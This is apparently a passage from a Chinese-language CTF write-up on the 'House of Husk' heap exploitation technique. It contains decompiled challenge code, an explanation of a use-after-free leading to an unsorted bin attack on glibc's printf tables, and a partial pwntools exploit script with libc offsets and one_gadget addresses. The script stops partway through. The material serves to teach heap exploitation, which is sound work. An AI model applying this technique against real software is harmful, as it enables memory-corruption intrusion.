 ```c
  read(0, bufc, 0x1000uLL);
  v6 = atoi((const char *)bufc);
  printf("Let's edit, %s:\n", (const char *)dest);
  if ( v6 == 1 )
    read(0, ptr, 0x1000uLL);
  else
    read(0, v13, 0x1000uLL);
  free(ptr);
  free(v13);
  printf("bye! %s", (const char *)dest);
  return 0;
}
```

通读代码之后，我们可以理清它的大概逻辑：

- 先让我们 malloc 两个大的块，一个在 0x1000 到 0x5000 之间，一个在 0x5000 到 0xA000 之间。
- 接下来 rename 的地方存在 uaf 漏洞，直接给出了 unsorted bin 的 fd，而且后续写的操作可以用于覆盖 bk 进行 unsorted bin attack
- 再接下来允许我们修改前面 malloc 的块，最后 free 掉。

所以攻击的逻辑很简单，malloc 的两个块正好对应 `__printf_arginfo_table` 和 `__printf_function_table`，unsorted bin 用来 leak libc 和覆盖 `global_max_fast`，edit 时填充 one_gadget，最后 printf 触发。

值得注意的是，题目给出的 libc 并没有两个 printf table 的符号，我们需要到 dbg 版本的 libc 文件中查询，这里推荐一个能查询 debug 版本 libc 的网站——[libc database search](https://publicki.top/libc/)

![image-20220307163518357](https://up-wind.github.io/assets/2022-02-22-house_of_husk/image-20220307163518357.png)

点击 All symbols，在网页中查询符号偏移。

### exp

```python
#!/usr/bin/python
from pwn import *
# context.log_level = 'debug'

p = process('./pwn')
# p = remote('1.13.162.249', 10001)
l = ELF('./libc-2.27.so', checksec=False)

ones = [0x4f365, 0x4f3c2, 0x10a45c]

__printf_arginfo_table = 0x3ec870
__printf_function_table  = 0x3f0658
main_arena = 0x3ebc40
global_max_fast = 0x3ed940

arg_offset = __printf_arginfo_table - main_arena
p.sendlineafter('size?\n', str(arg_offset*2-0x10))

func_offset = __printf_function_table - main_arena
p.sendlineafter('size?\n', str(func_offset*2-0x10))

p.sendlineafter('(y/n)\n', 'y')

p.recvuntil('is:')
l.address = u64(p.recv(6)+'\0\0') - 0x3ebca0

success("libc -> %s" % hex(l.address))

payload = p64(0)
payload += p64(l.address + global_max_fast - 0x10)
p.sendlineafter('name!\n', payload)

```